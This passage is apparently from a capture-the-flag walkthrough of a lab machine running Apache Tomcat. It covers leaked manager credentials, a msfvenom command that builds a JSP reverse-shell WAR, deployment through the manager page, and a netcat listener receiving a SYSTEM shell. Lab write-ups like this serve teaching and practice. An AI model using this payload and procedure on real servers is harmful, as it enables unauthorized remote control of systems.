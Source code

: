 It seems we are able to upload an app directly to the server from the web service. If this is the case, then we might be able to get a reverse shell by deploying an app.

## [](#mindset-step2)Step 2 - Understanding the problem

Alright, it seems we have found our way in with our recon. Let's take a look at what we have found so far:

1. Leaked credentials `tomcat:s3cret` in error pages.
2. Deployment app that accepts WAR files.
3. An upload functionality within the web service.
4. Unaccessible Host Manager page, giving 403.

Now, we might be able to think of an attack vector. We could investigate the unaccessible Host Manager page to see if we find more vectors. However, after some basic attempts, I've found nothing there. Which leads me to think our way in is through a reverse shell. If we manage to deploy a reverse shell app, we might be able to get foothold on the system. 


## [](#mindset-step3)Step 3 - Crafting the attack

For that task, we can use `msfvenom`. A simple Google Search "msfvenom war file" leads to [this](https://charlesreid1.com/wiki/MSFVenom) page. We can see that there is a specific payload for Tomcat. We can generate our payload with:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<YOUR IP> LPORT=1234 -f war > shell.war
```

This will create a `shell.war` file that is going to be our revserse shell app. After that, we upload this shell into the web server:

<img src="../figs/tomcat-jerry-6.png" alt="tomcat deploy list">

If successful, we are going to see a "OK" message right on the top of the page, underneath "Tomcat Web Application Manager". Now, we need to start listening on port 1234 (or the port chosen as a payload to msfvenom) on our local machine with ```nc -lnvp 1234```.

Now, we simply access `/shell/`, or the name of the app WAR file (without .war), and we shall get access to the machine through netcat:

```bash
kaizen@celestial /tmp/htb $ nc -lnvp 1234
Connection from 10.10.10.95:49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```
